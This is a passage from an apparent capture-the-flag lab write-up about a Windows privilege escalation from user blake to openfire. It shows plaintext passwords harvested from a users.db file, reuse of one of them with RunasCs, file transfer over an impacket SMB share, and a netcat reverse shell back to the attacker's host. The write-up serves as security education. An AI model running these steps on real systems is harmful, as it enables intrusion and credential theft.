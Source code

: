 ## Privesc: blake to openfire

`net users` command shows a user **openfire**.

![alt text](image-23.png)

This is interesting, we might need to escalate into openfire user before Administrator.

Looking around **blake**'s home directory, there's a interesting file named **users.db**:

![alt text](image-24.png)

**users.db** reveals bunch of potential credentials:

| Username    | Password                 |
|-------------|---------------------------|
| alexanderk  | HotP!fireguard           |
| claudias    | 007poiuytrewq            |
| blakeb      | ThisCanB3typedeasily1@   |

![alt text](image-25.png)




### RunasCs.exe

[RunasCs.exe](https://github.com/antonioCoco/RunasCs/releases) helps different users to run commands as the specified user.

Let's upload **RunasCs.exe** to the target using the command `impacket-smbserver share -smb2support $(pwd)` and `copy \\10.10.14.13\share\RunasCs.exe .`:

![alt text](image-27.png)

One of passwords found from **users.db** was being reused for user **openfire** and we can execute commands as user openfire using RunaCs.exe:

`.\RunasCs.exe openfire HotP!fireguard "whoami"`

![alt text](image-29.png)


Now, in order to spawn reverse shell as **openfire**, let's upload **nc.exe**:

![alt text](image-28.png)

Runing `.\RunasCs.exe openfire HotP!fireguard "C:\tmp\nc.exe 10.10.14.13 1234 -e powershell"`, we get a reverse shell as openfire on our netcat listener:

![alt text](image-30.png)

## Privesc: openfire to administrator
